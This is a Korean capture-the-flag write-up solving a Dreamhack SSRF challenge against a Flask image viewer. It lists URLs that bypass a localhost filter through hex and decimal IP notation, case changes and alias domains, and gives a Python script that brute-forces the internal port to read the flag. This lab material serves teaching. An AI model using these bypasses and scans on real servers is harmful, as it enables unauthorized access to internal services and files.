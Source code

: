 ## 📍web-ssrf

```
flask로 작성된 image viewer 서비스 입니다.
SSRF 취약점을 이용해 플래그를 획득하세요. 플래그는 `/app/flag.txt`에 있습니다.
```

이미지 뷰어가 뜬다.

![](../../Attachments/EA1E17AF-74F5-4E05-8C79-B06D89EE62D0.png)


#### 소스코드

입력값이 `/`로 시작하는 경우 `http://localhost:8000` 뒤에 추가하고 GET 요청을 보낸다.
입력값이 `localhost` 또는 `127.0.0.1`을 포함하면 로컬에서 `error.png` 이미지를 읽어와 반환한다.
이미지 데이터를 가져오는 데 성공하면 Base64로 인코딩한다.
URL 요청에 실패하면 로컬의 `error.png` 이미지를 읽어와서 Base64로 인코딩한다.
![](../../Attachments/50FE09BD-B167-40FE-B89A-484ED94B92A1.png)

파이썬의 `http.server` 모듈을 사용하여 HTTP 서버를 생성한다.
서버가 실행될 호스트 주소는 `127.0.0.1`이고 포트 번호는 1500부터 1800 사이의 랜덤한 포트를 선택한다.
![](../../Attachments/062ACFF7-6AD3-4567-9D79-3C8F2C69A8A7.png)


#### 취약점

`img_viewer`는 이용자가 전달한 `url`에 HTTP 요청을 보내고 응답을 반환한다.
이때 서버 주소에 `127.0.0.1`과 `localhost`가 포함된 URL로의 접근을 막는다.
이를 우회하면 SSRF를 통해 내부 HTTP 서버에 접근할 수 있다.


#### 해결
##### URL 필터링 우회
1. 127.0.0.1과 매핑된 도메인 이름 사용하기
	- 도메인 이름을 구매하면 이를 DNS 서버에 등록해 원하는 IP 주소와 연결할 수 있다.
	- 임의의 도메인 이름을 구매해 127.0.0.1과 연결하고 그 이름을 `url`로 사용하면 필터링 우회가 가능하다.
2. 127.0.0.1의 alias 이용
	- IP의 다양한 표기 방식을 이용한다.
	- `127.0.0.1`
		- 각 자릿수를 16진수로 변환: `0x7f.0x00.0x00.0x01`
		- 위에서 `.`을 제거한 `0x7f000001`
		- 위를 10진수로 변환한 `2130706433`
		- 각 자리에서 0을 생략한 `127.1` 또는 `127.0.1`
	- `127.0.0.1`부터 `127.0.0.255`까지의 IP는 루프백(loop-back) 주소라고 하여 모두 로컬 호스트를 가리킨다.
3. localhost의 alias 이용
	- URL에서 호스트와 스키마는 대소문자를 구분하지 않는 점을 이용한다.

필터링을 우회할 수 있는 localhost URL 목록 ⬇️
```
http://vcap.me:8000/
http://0x7f.0x00.0x00.0x01:8000/
http://0x7f000001:8000/
http://2130706433:8000/
http://Localhost:8000/
http://127.0.0.255:8000/
```


`http://Localhost:8000/`을 Image Viewer에 입력하면 어떤 이미지가 로딩된다.
![](../../Attachments/711EBE33-8671-417A-9DE5-0F60D4A45CAA.png)

개발자 도구로 살펴보면 Base64로 인코딩되어 있다.
![](../../Attachments/4E8379C5-947B-441A-8C0C-2390D11E9F92.png)

Base64 디코딩 사이트에서 디코딩해보면 다음과 같다.
![](../../Attachments/ED3ADF80-89D0-49FF-978E-1047576C7ABD.png)
문제 인덱스 페이지를 인코딩한 이미지임을 알 수 있다.
따라서 위 URL은 필터링을 우회해서 로컬 호스트를 가리킬 수 있는 URL이다.

##### 랜덤한 포트 찾기
내부 HTTP 서버는 포트 번호가 1500 이상 1800 이하인 임의 포트에서 실행되고 있다.
`error.png`를 보여주지 않는 포트 번호를 찾아야 한다.

브루트포스 파이썬 스크립트를 작성해서 실행한다.
```python
import requests

for port in range(1500,1801):
    url = "http://host3.dreamhack.games:15033/img_viewer"
    img_url = f'http://Localhost:{port}/flag.txt'
    data = { "url" : img_url }
    response = requests.post(url, data=data)

    if "iVBORw0KGgoAAAA" not in response.text:
        print(f"port: {port}")
        break;
```
- 필터링을 우회한 로컬호스트 주소에 1500 이상 1800 이하의 포트 번호를 넣은 `img_url`을 `data`의 `url` 키로 추가한다.
	- `data`: 서버에 보낼 요청 데이터
- 지정된 `url`에 대해 POST 요청을 보낸다.
- 응답 텍스트에 특정 문자열(`iVBORw0KGgoAAAA`, PNG 이미지의 시작 부분)이 포함되어 있지 않으면 포트를 출력하고 반복문을 종료한다.

스크립트를 실행하면 포트 번호가 1616이라고 나온다.
![](../../Attachments/AA4F8DA0-98B6-4F3E-A219-A2AC037C4ED5.png)

![](../../Attachments/56FCF624-670A-4F15-B1DB-8B4D93C620CE.png)

Base64로 인코딩된 이미지를 해석하면 FLAG가 나온다.
![](../../Attachments/9A0B7D2A-C67A-441E-9A5B-4050BA886902.png)
